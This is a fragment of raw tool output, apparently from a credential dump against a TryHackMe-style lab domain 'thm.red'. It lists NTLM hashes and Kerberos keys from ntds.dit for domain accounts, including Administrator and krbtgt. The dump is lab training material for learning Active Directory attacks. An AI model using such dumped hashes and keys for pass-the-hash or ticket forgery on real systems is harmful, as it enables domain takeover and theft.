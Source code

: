 ```text
thm.red\victim:1115:aad3b435b51404eeaad3b435b51404ee:6c3d8f78c69ff2ebc377e19e96a10207:::
thm.red\thm-local:1116:aad3b435b51404eeaad3b435b51404ee:077cccc23f8ab7031726a3b70c694a49:::
thm.red\admin:1118:aad3b435b51404eeaad3b435b51404ee:077cccc23f8ab7031726a3b70c694a49:::
thm.red\svc-thm:1119:aad3b435b51404eeaad3b435b51404ee:5858d47a41e40b40f294b3100bea611f:::
thm.red\bk-admin:1120:aad3b435b51404eeaad3b435b51404ee:077cccc23f8ab7031726a3b70c694a49:::
thm.red\test-user:1127:aad3b435b51404eeaad3b435b51404ee:5858d47a41e40b40f294b3100bea611f:::
sshd:1128:aad3b435b51404eeaad3b435b51404ee:a78d0aa18c049d268b742ea360849666:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:510e0d5515009dc29df8e921088e82b2da0955ed41e83d4c211031b99118bf30
Administrator:aes128-cts-hmac-sha1-96:bab514a24ef3df25c182f5520bfc54a0
Administrator:des-cbc-md5:6d34e608f8574632
CREDS-HARVESTIN$:aes256-cts-hmac-sha1-96:508aa735622e15c3fdd0a12f52ce779fa382205b828bdc0f441ddfeaef1bbf13
CREDS-HARVESTIN$:aes128-cts-hmac-sha1-96:db9e72cb40e0f8b93a7f44e7f79669fc
CREDS-HARVESTIN$:des-cbc-md5:f434a7298562ec6e
krbtgt:aes256-cts-hmac-sha1-96:24fad271ecff882bfce29d8464d84087c58e5db4083759e69d099ecb31573ad3
krbtgt:aes128-cts-hmac-sha1-96:2feb0c1629b37163d59d4c0deb5ce64c
krbtgt:des-cbc-md5:d92ffd4abf02b049
thm.red\thm:aes256-cts-hmac-sha1-96:2a54bb9728201d8250789f5e793db4097630dcad82c93bcf9342cb8bf20443ca
thm.red\thm:aes128-cts-hmac-sha1-96:70179d57a210f22ad094726be50f703c
thm.red\thm:des-cbc-md5:794f3889e646e383
thm.red\victim:aes256-cts-hmac-sha1-96:588635fd39ef8a9a0dd1590285712cb2899d0ba092a6e4e87133e4c522be24ac
thm.red\victim:aes128-cts-hmac-sha1-96:672064af4dd22ebf2f0f38d86eaf0529
thm.red\victim:des-cbc-md5:457cdc673d3b0d85
thm.red\thm-local:aes256-cts-hmac-sha1-96:a7e2212b58079608beb08542187c9bef1419d60a0daf84052e25e35de1f04a26
thm.red\thm-local:aes128-cts-hmac-sha1-96:7c929b738f490328b13fb14a6cfb09cf
thm.red\thm-local:des-cbc-md5:9e3bdc4c2a6b62c4
thm.red\admin:aes256-cts-hmac-sha1-96:7441bc46b3e9c577dae9b106d4e4dd830ec7a49e7f1df1177ab2f349d2867c6f
thm.red\admin:aes128-cts-hmac-sha1-96:6ffd821580f6ed556aa51468dc1325e6
thm.red\admin:des-cbc-md5:32a8a201d3080b2f
thm.red\svc-thm:aes256-cts-hmac-sha1-96:8de18b5b63fe4083e22f09dcbaf7fa62f1d409827b94719fe2b0e12f5e5c798d
thm.red\svc-thm:aes128-cts-hmac-sha1-96:9fa57f1b464153d547cca1e72ad6bc8d
thm.red\svc-thm:des-cbc-md5:f8e57c49f7dc671c
thm.red\bk-admin:aes256-cts-hmac-sha1-96:48b7d6de0b3ef3020b2af33aa43a963494d22ccbea14a0ee13b63edb1295400e
thm.red\bk-admin:aes128-cts-hmac-sha1-96:a6108bf8422e93d46c2aef5f3881d546
thm.red\bk-admin:des-cbc-md5:108cc2b0d3100767
thm.red\test-user:aes256-cts-hmac-sha1-96:2102b093adef0a9ddafe0ad5252df78f05340b19dfac8af85a4b4df25f6ab660
thm.red\test-user:aes128-cts-hmac-sha1-96:dba3f53ecee22330b5776043cd203b64
thm.red\test-user:des-cbc-md5:aec8e3325b85316b
sshd:aes256-cts-hmac-sha1-96:07046594c869e3e8094de5caa21539ee557b4d3249443e1f8b528c4495725242
sshd:aes128-cts-hmac-sha1-96:e228ee34b8265323725b85c6c3c7d85f
sshd:des-cbc-md5:b58f850b4c082cc7
[*] Cleaning up... 
```
